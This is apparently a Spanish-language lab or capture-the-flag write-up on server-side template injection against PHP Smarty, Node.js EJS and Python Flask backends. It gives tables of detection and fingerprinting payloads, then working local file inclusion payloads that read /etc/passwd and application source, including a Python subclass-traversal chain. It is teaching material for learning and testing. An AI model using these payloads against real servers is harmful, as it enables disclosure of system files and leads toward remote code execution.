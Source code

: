 
### Detectar SSTI

Intentamos detectar SSTI en los tres puertos y encontramos uno para cada tecnología.

| Tecnología  | Puerto | Payload enviado   | Resultado |
|:-----------:|--------|-------------------|-----------|
| PHP         |   80   | `{7*7}`           | Hola, 49! |
| Node.js     | 3000   | `<%=7*7%>`        | Hola, 49! |
| Python      | 5000   | `{{7*7}}`         | Hola, 49! |

### Detectar motor de plantilla que corren detras

Cada tecnología de backend (PHP, Node.js, Python, Java, ...) puede tener diferentes motores de plantillas (Smarty, EJS, ...), suelen ser más habituales unos motores en unas tecnologías, pero creadme hay inventos raros que permiten utilizar motores diseñados para PHP en Node.js (https://github.com/ecomfe/smarty4js), etc...

Ademas de las técnicas que se explican en las referencias anteriores, también podemos intentar comprender mejor como funciona cada motor de plantillas y utilizar posibles variables que solo aparezcan en cada uno de ellos.

Ejemplo:

| Tecnología  | Puerto | Payload enviado               | Resultado esperado                                    |
|:-----------:|--------|-------------------------------|-------------------------------------------------------|
| PHP         |   80   | `{$smarty.version}`           | Versión del motor de plantilla **Smarty**             |
| Node.js     | 3000   | `<%=JSON.stringify(locals)%>` | Todas las variables incluidas en la plantilla **EJS** |
| Python      | 5000   | `{{config}}`                  | Configuración de **Flask**                            |

Estos son solo unos ejemplos, consiste en conocer un poco cada motor de plantillas para identificarlos.

### Conseguir LFI (Local File Inclusion) y RCE (Remote Code Execution)

Ahora ya sabemos las tecnologías que están corriendo en el backend y también los payloads que nos permiten ejecutar PHP, Node.js y Python a traves de la inyección en la plantilla.

Pues precisamente las funciones, librerías y módulos de estas tecnologías son las que utilizaremos para conseguir un LFI i RCE.

#### Tabla ejemplos LFI

| Tecnología  | Puerto | Payload enviado                                                                                                  | Resultado                      |
|:-----------:|--------|------------------------------------------------------------------------------------------------------------------|--------------------------------|
| PHP         |   80   | `{file_get_contents("/etc/passwd")}`                                                                             | Fichero passwd                 |
| Node.js     | 3000   | `<%- include("/app/node-app/app.js")%>`                                                                          | Código fuente de la aplicación |
| Python      | 5000   | `{{'X'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}` | Fichero passwd                 |
